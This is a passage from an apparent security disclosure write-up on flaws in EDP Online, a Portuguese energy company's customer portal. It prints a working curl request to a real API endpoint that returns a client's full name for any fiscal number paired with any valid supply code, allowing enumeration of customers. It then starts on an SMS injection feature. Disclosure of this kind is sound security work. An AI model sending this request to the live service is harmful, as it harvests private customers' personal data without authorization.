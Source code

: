 You got the full name of the person who owns the given NIF. There's an obstacle in the way, though: you still needed to know a `NIF` and `CPE` pair, which is expensive to bruteforce/guess. Turns out that wasn't the case as providing any valid `CPE` was enough - it didn't need to match the NIF. This meant you could essentially iterate all valid NIFs and exfiltrate the list of full names and their corresponding fiscal numbers of all EDP consumer clients.

The request needed to exploit this was:

``` sh
curl -X POST \
  https://edponline.edp.pt/api/v2/contract/getContractsToAssociate \
  -H 'cookie: PHPSESSID=YOUR_SESSION' \
  -d '{
        "category": "contract",
        "operation": "getContractsToAssociate",
        "Body": {
          "Nif": "123456789",
          "CPE_CUI": "VALID_CPE_CUI",
          "CIL": null,
          "ContractID": null
        }
      }'
```

The response also revealed some extra information about the account:

``` javascript
{
  "Header": {"errorStatus": null, "errorMsg": null, "Status": null},
  "Body": {
    "Result": {
      "list": [{"Company": "pt.edp.edponline.company.EDPSU"}],
      "found": true,
      "nifHasContacts": false,
      "nifHasEmail": true,
      "nifHasPhone": true,
      "nifHasEDPOnlineRegister": false,
      "name": "JANE ROE",
      "nif": "123456789",
      "previousAuthorizationWaitingApproval": false
    },
    "Success": true
  }
}
```

### SMS Injection

Another neat feature that's available from the platform is the ability to get an SMS message with the latest payment details.

{{ image(
    path="images/edp/sms.png",
    alt="EDP Online SMS feature.",
    caption_no="4",
    caption="EDP Online SMS feature."
) }}
